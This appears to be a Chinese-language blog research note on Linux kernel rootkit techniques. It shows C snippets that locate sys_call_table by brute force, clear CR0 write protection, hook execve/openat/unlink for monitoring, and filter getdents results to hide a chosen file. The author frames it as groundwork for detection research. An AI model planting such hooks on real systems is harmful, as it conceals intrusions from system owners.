



原理 rootkit通常是指攻击者拿到root权限以后在行为这块做隐藏的恶意软件，其工作环境包括用户态和内核态，用户态的手法一般是通过ld_preload hook glibc，内核态则是写lkm去hook系统调用。hook系统调用技术其实也有细分，包括kernel inline hook、kprobe、sys_call_table hook等，这篇博客所记录的就是最基础的sys_call_table hook这块的内容。
研究过程 sys_call_table modify sys_call_table地址获取
sys_call_table地址获取方式有如下几种：
1、从/boot/System.map中获取
2、从/proc/kallsyms中获取
3、idt劫持
4、暴力搜索
这边选择的是第四种方式，利用未导出函数的地址及公开的系统调用索引，从内核空间起始地址开始搜索，最终得到syscall_table
1 2 3 4 5 6 7 8 9 10 11 12 13 unsigned long **get_sct_via_sys_close(void ) { unsigned long **entry = (unsigned long **)PAGE_OFFSET; for (;(unsigned long )entry < ULONG_MAX; entry += 1 ) { if (entry[__NR_close] == (unsigned long *)sys_close) { return entry; } } return NULL ; }
写保护关闭
1 2 3 4 5 6 7 8 9 10 11 12 13 void disable_wp(void ) { unsigned long cr0; preempt_disable(); cr0 = read_cr0(); clear_bit(X86_CR0_WP_BIT, &cr0); write_cr0(cr0); preempt_enable(); return ; }
sys_call_table 修改
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 asmlinkage long fake_openat(int dirfd,const char __user *filename, int flags, umode_t mode) { if ((flags & O_CREAT) && strcmp (filename, "/dev/null" ) != 0 ) { fm_alert("open: %s\n" , filename); } return real_openat(dirfd,filename, flags, mode); } asmlinkage long fake_unlink(const char __user *pathname) { fm_alert("unlink: %s\n" , pathname); return real_unlink(pathname); } asmlinkage long fake_unlinkat(int dfd, const char __user * pathname, int flag) { fm_alert("unlinkat: %s\n" , pathname); return real_unlinkat(dfd, pathname, flag); }
1 2 3 4 5 # define HOOK_SCT(sct, name) \ do { \ real_##name = (void *)sct[__NR_##name]; \ sct[__NR_##name] = (void *)fake_##name; \ } while (0 )
恢复
1 2 # define UNHOOK_SCT(sct, name) \ sct[__NR_##name] = (void *)real_##name
sys_call hook process monitor
监控进程执行，其实就是hook execve后对argv进行格式化输出cmdline
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 asmlinkage long fake_execve(const char __user *filename, const char __user *const __user *argv, const char __user *const __user *envp) { char *args; char *buff = kmalloc(PAGE_SIZE, GFP_KERNEL); if (buff) { args = join_strings(argv, " " , buff, PAGE_SIZE); } else { args = (char *)argv[0 ]; buff = NULL ; } printk("execve: %s\n" , args); kfree(buff); return real_execve(filename, argv, envp); }

File monitor
监控file（创建、删除），和execve hook类似，但ubuntu16.04 kernel 4.15.0-54 的环境中测试demo把内核hang死了，在ubuntu 18.04 kernel 4.15.0-29的环境中测试，strace发现其创建文件系统调用不是open而是openat，修改部分代码重新编译测试demo
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 asmlinkage long fake_openat(int dirfd,const char __user *filename, int flags, umode_t mode) { if ((flags & O_CREAT) && strcmp (filename, "/dev/null" ) != 0 ) { fm_alert("open: %s\n" , filename); } return real_openat(dirfd,filename, flags, mode); } asmlinkage long fake_unlink(const char __user *pathname) { fm_alert("unlink: %s\n" , pathname); return real_unlink(pathname); } asmlinkage long fake_unlinkat(int dfd, const char __user * pathname, int flag) { fm_alert("unlinkat: %s\n" , pathname); return real_unlinkat(dfd, pathname, flag); }

File hide
ls等程序通过getdents/getdents64获取当前目录下的文件条目，demo hook此系统调用并过滤指定文件名条目，过滤完后返回给下层系统调用并最终输出给用户
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 asmlinkage long fake_getdents(unsigned int fd, struct linux_dirent __user *dirent, unsigned int count) { long ret; ret = real_getdents(fd, dirent, count); print_dents(dirent, ret); ret = remove_dent(SECRET_FILE, dirent, ret); print_dents(dirent, ret); return ret; } asmlinkage long fake_getdents64(unsigned int fd, struct linux_dirent64 __user *dirent, unsigned int count) { long ret; ret = real_getdents64(fd, dirent, count); print_dents64(dirent, ret); ret = remove_dent64(SECRET_FILE, dirent, ret); print_dents64(dirent, ret); return ret; }

总结 代码非常简单，难的是在脑中构建一整套程序底层运行流程，需要将很多零碎的东西串联起来；下期抽空整理输出下常见rootkit lkm隐藏技术及rkhunter/chkrootkit源码分析，再之后rookit这块的研究更多将偏向检测等。
参考链接 https://tnichols.org/2015/10/19/Hooking-the-Linux-System-Call-Table/
https://github.com/NoviceLive/research-rootkit
https://docs-conquer-the-universe.readthedocs.io/zh_CN/latest/linux_rootkit/sys_call_table.html
https://www.freebuf.com/articles/system/108392.html
https://kernelhacking.com/rodrigo/docs/StMichael/kernel-land-rootkits.pdf